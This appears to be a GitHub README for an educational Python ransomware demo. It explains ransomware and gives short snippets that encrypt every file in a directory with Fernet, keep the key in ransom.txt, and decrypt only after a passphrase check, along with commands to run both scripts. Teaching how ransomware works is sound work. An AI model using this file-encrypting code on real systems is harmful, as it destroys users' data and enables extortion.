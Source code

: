 # Simple Ransomware in Python
[![Python Version](https://img.shields.io/badge/python-3.x-brightgreen.svg)](https://www.python.org/)
[![License](https://img.shields.io/badge/license-MIT-blue.svg)](LICENSE)

## What is Ransomware?

Ransomware is a type of malicious software (malware) that encrypts a user's files or locks them out of their system, rendering the data inaccessible until a ransom is paid. It typically spreads through phishing emails, malicious links, or software vulnerabilities. Once activated, ransomware will encrypt files and demand payment, often in cryptocurrency, to provide the decryption key.

## Purpose of This Project

This project, **Simple Ransomware in Python**, is designed for educational purposes only. It demonstrates how ransomware attacks function and the mechanisms behind file encryption and decryption. Understanding these concepts is crucial for cybersecurity awareness and defense strategies.

### Warning: 
**DO NOT use these scripts on any real or sensitive data.** This code is for educational purposes only and should only be run in a controlled environment, such as a virtual machine or a sandbox, where it cannot cause harm. Misuse of this code could result in data loss or legal consequences.

## Features

- **File Encryption**: Encrypts all files in the directory (except specified scripts) using symmetric encryption (Fernet).
- **Decryption**: Allows the user to decrypt files if the correct secret key is provided.
- **GUI Notifications**: Uses `tkinter` to display messages during encryption and decryption processes.

## Files Included

- `ransomware.py`: The main script that encrypts files.
- `Decrypt.py`: The script that decrypts the encrypted files.
- `ransom.txt`: A text file containing the encryption key.
  
## How It Works

### Encryption Process:
1. The script scans the current directory for files to encrypt.
2. It generates a symmetric encryption key using the `Fernet` encryption algorithm from the `cryptography` library.
3. The encryption key is stored in the `ransom.txt` file.
4. All files except the script files (`ransomware.py`, `Decrypt.py`, and `ransom.txt`) are encrypted.
5. The contents of the selected files are replaced with their encrypted versions.
6. A message is printed to the console, and a GUI notification warns the user that their files have been encrypted.

#### Code Snippet (Encryption):
```python
 key = Fernet.generate_key()
 with open("ransom.txt", "wb") as thekey:
     thekey.write(key)

 for file in files:
     contents = open(file, "rb").read()
     encrypted_contents = Fernet(key).encrypt(contents)
     open(file, "wb").write(encrypted_contents)
```

### Decryption Process:
1. The `Decrypt.py` script prompts the user to input a secret phrase.
2. The phrase is hashed using `SHA-256` and compared to a predefined secret hash.
3. If the phrase is correct, the script retrieves the encryption key from the `ransom.txt` file.
4. The encrypted files are decrypted and restored to their original state.
5. A success message is printed, and the user is notified via a GUI popup.
6. If the secret phrase is incorrect, the decryption fails, and a warning message is displayed.

   
#### Code Snippet (Decryption):
```python
if hashlib.sha256(user_input.encode()).hexdigest() == secret_hash:
    for file in files:
        decrypted_contents = Fernet(secretkey).decrypt(open(file, "rb").read())
        open(file, "wb").write(decrypted_contents)
```



## Requirements

To run this project, you need the following:

- Python 3.x
- `cryptography` library (install via pip):
  ```bash
  pip install cryptography
  ```
- `tkinter` for GUI notifications (usually included with Python installations).

## How to Run
1. Clone or download the repository.
2. Navigate to the project directory.
3. Run the encryption script:
   ```bash
   python3 ransomware.py
   ```
     - this will encrypt all the files in the Project directory.
  
4. To decrypt, use:
   ```bash
   python3 Decrypt.py
   ```
     - this will decrypt all the files in the Project directory.

## Conclusion
This project serves as a learning tool to understand the mechanics of ransomware. It highlights the importance of cybersecurity practices, such as regular backups and secure file handling. Always remember to keep your systems updated and be cautious of suspicious links and attachments.

**Disclaimer** : The author is not responsible for any misuse or damage caused by the use of this code. Use at your own risk.


  






  
  
